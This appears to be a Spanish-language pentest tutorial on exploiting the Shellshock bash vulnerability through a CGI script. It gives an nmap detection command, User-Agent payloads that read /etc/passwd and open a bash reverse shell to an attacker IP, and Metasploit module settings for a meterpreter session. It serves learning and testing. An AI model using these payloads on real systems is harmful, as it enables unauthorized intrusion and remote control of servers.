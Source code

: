 VULNERABILIDAD SHELLSHOCK

## **REQUISITOS**

La vulnerabilidad **Shellshock** se utiliza para explotar el bash (desde la versión 1.3), permitiendo la ejecución remota de código. Esto le permite al atacante obtener acceso al sistema a través de una reverse shell.

## **FORMAS DE REALIZAR EL ATAQUE**

- Manualmente con Burp Suite
- Automáticamente con metasploit

## **EJEMPLO**

Por ejemplo, en esta web podemos comprobar que hay un contador hacia atrás, por lo que tiene que haber un script corriendo por detrás para realizar la cuenta atrás:

![image](https://github.com/user-attachments/assets/a9c02697-e43e-42db-88a6-fb3013b17b58)

Si analizamos el código fuente de la página podemos comprobar que por detrás se ejecuta un script cgi llamado gettime.cgi y está ubicado en en el index de la web

![image](https://github.com/user-attachments/assets/3a9c9c8c-92bb-4f05-9fb5-196d70901b18)

![image](https://github.com/user-attachments/assets/2f935b90-01fd-46c4-9cee-37adb4932f54)

## **COMPROBACIÓN**

Para saber si es vulnerable a este ataque tenemos que comprobarlo con un script de nmap:

- nmap \*ip\* --script=http-shellshock --script-args=”http-shellshock.uri=gettime.cgi”

![image](https://github.com/user-attachments/assets/38bdd297-853a-4859-8719-8c30ff216f2a)

## **ATAQUE CON BURP SUITE**

Recargar la página donde se encuentra el script gettime.cgi y enviar la solicitud al Repeater.

En repeater, modificaremos el user-agent de la siguiente manera

- User-Agent: () { :;}; echo; echo; /bin/bash -c 'cat /etc/passwd'

![image](https://github.com/user-attachments/assets/08b79c37-525f-4cdc-a67e-85b2c9d02a5a)

Y nos devolverá lo siguiente:

![image](https://github.com/user-attachments/assets/9abc9968-abf0-455d-9528-a8af2d70188b)

Si queremos conseguir una reverse shell ponemos netcat a la escucha por el puerto 1234 y ejecutamos esta reverse shell en burp suite:

- User-Agent: () { :;}; echo; echo; /bin/bash -c ‘bash -i >& /dev/tcp/&lt;attacker_ip&gt;/1234 0>&1’

![image](https://github.com/user-attachments/assets/3a641b17-46eb-4f43-bb5b-b9b387c9e0fa)

## **ATAQUE CON METASPLOIT**

Para hacer uso de esta vulnerabilidad buscamos “shellshock” en metasploit. Tenemos dos módulos:

- apache_mod_cgi_bash_env (scanner)
- apache_mod_cgi_bash_env_exec (exploit)

Como ya sabemos que es vulnerable hacemos uso del exploit. Las opciones que tenemos que rellenar para conseguir una sesion de meterpreter son:

- RHOSTS
- set TARGETURI /gettime.cgi
- run
